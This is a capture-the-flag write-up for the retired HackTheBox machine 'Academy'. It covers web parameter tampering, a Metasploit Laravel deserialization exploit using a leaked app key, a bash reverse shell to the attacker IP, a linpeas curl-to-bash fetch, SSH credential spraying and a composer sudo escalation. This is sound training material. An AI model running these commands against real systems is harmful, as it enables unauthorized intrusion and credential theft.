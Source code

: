 # Academy

This is the write-up for the box Academy that got retired at the 27th February 2021.
My IP address was 10.10.14.14 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.215    academy.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/academy.nmap 10.10.10.215
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 c0:90:a3:d8:35:25:6f:fa:33:06:cf:80:13:a0:a5:53 (RSA)
|   256 2a:d5:4b:d0:46:f0:ed:c9:3c:8d:f6:5d:ab:ae:77:96 (ECDSA)
|_  256 e1:64:14:c3:cc:51:b2:3b:a6:28:a7:b1:ae:5f:45:35 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Did not follow redirect to http://academy.htb/
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The website on port 80 automatically forwards to the hostname _academy.htb_.

## Checking HTTP (Port 80)

The webpage has a login page on _login.php_ and a register page on _register.php_.
After registering a user and login in, it looks like a replica of the **HackTheBox Academy** website, but none of the links do anything.

Lets search for hidden directories and PHP files with **Gobuster**:
```
gobuster -u http://academy.htb dir -w /usr/share/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt -x php -b 404,403
```

It finds the files _config.php_, which is empty and has no HTML source code and _admin.php_ which forwards to another login page.

When registering a user, there is another parameter _roleid_ set to _0_:
```
POST /register.php HTTP/1.1
Host: academy.htb
(...)

uid=newuser2&password=Pass123&confirm=Pass123&roleid=0
```

By changing it to _1_, it is possible to login into _admin.php_ with the title _"Academy Launch Planner"_ where one task is pending:

![Academy Launch Planner](academy_web-1.png)

The subdomain _dev-staging-01.academy.htb_ has to be put into our _/etc/hosts_ file to access it.
It forwards to a page with errors:
```
UnexpectedValueException
The stream or file "/var/www/html/htb-academy-dev-01/storage/logs/laravel.log" could not be opened in append mode: failed to open stream: Permission denied
```

![Subdomain error](academy_web-2.png)

This error tells us, that the web service uses the **Laravel framework** for PHP.
In the environment variables is a key and login information for the database:
```
APP_KEY: "base64:dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0="

DB_DATABASE: "homestead"
DB_USERNAME: "homestead"
DB_PASSWORD: "secret"
```

Searching for vulnerabilities in **Laravel**:
```
searchsploit laravel

PHP Laravel Framework 5.5.40 / 5.6.x < 5.6.30 - token Unserialize Remote Command Execution (Metasploit)
```

Using **Metasploit** to exploit the vulnerability:
```
msf6 > use exploit/unix/http/laravel_token_unserialize_exec

msf6 exploit(unix/http/laravel_token_unserialize_exec) > set LHOST tun0
msf6 exploit(unix/http/laravel_token_unserialize_exec) > set LPORT 9001

msf6 exploit(unix/http/laravel_token_unserialize_exec) > set RHOSTS dev-staging-01.academy.htb
msf6 exploit(unix/http/laravel_token_unserialize_exec) > set APP_KEY dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=
msf6 exploit(unix/http/laravel_token_unserialize_exec) > set VHOST dev-staging-01.academy.htb

msf6 exploit(unix/http/laravel_token_unserialize_exec) > exploit
```

After sending the payload, it will start a command shell session as the user _www-data_.

As this shell is limited, it is recommended to start a proper reverse shell:
```
bash -c 'bash -i >& /dev/tcp/10.10.14.14/9002 0>&1'
```

After sending the command, the listener on my IP and port 9002 starts a reverse shell as the user _www-data_.

## Privilege Escalation

In the directory _/var/www/html/htb-academy-dev-01_ is the _.env_ file with the credentials from the error message, but these do not work on **MySQL**:
```
DB_CONNECTION=mysql
DB_HOST=127.0.0.1
DB_PORT=3306
DB_DATABASE=homestead
DB_USERNAME=homestead
DB_PASSWORD=secret
```

In the directory _/var/www/html/academy_ is a different _.env_ file with credentials, that also do not work on the database:
```
DB_HOST=127.0.0.1
DB_PORT=3306
DB_DATABASE=academy
DB_USERNAME=dev
DB_PASSWORD=mySup3rP4s5w0rd!!
```

There are six folders with _/home_ directories and all the users exist in _/etc/passwd_ so lets create a userlist and test the password for these users:
```
cat /etc/passwd | grep sh$ | awk -F: '{print $1}'
```

Brute-Forcing SSH for the list of users:
```
crackmapexec ssh 10.10.10.215 -u academy_users.list -p 'mySup3rP4s5w0rd!!' --continue-on-success
```
```
SSH         10.10.10.215    22     10.10.10.215     [+] cry0l1t3:mySup3rP4s5w0rd!!
```

The password is working successfully for the user _cry0l1t3_:
```
ssh cry0l1t3@10.10.10.215
```

### Privilege Escalation 2

To get an attack surface on the box, it is recommended to run any **Linux Enumeration Script**:
```
curl 10.10.14.14/linpeas.sh | bash
```

The user _cry0l1t3_ is in the _adm_ group, with which it is possible to read log files.
It has **Auditd** enabled and writes logs to _/var/log/audit_.

These log files can be analyzed with `aureport` to get a summary of all logged information:
```
aureport

(...)
Number of terminals: 10
```

Checking the logs for the terminal sessions:
```
aureport --tty

TTY Report
===============================================
# date time event auid term sess comm data
===============================================
Error opening config file (Permission denied)
NOTE - using built-in logs: /var/log/audit/audit.log
1. 08/12/2020 02:28:10 83 0 ? 1 sh "su mrb3n",<nl>
2. 08/12/2020 02:28:13 84 0 ? 1 su "mrb3n_Ac@d3my!",<nl>
(...)
```

In this log file is a password that was used for the user _mrb3n_.
```
su mrb3n
```

### Privilege Escalation to root

By checking the `sudo` permissions of the user _mrb3n_, we see that `composer` can be executed with root privileges:
```
sudo -l

(...)
User mrb3n may run the following commands on academy:
    (ALL) /usr/bin/composer
```

The binary `composer` has an entry on [GTFOBins](https://gtfobins.github.io/gtfobins/composer/#sudo) to escalate privileges to root:
```bash
TF=$(mktemp -d)
echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
sudo composer --working-dir=$TF run-script x
```

After running the commands, a shell as root is started!
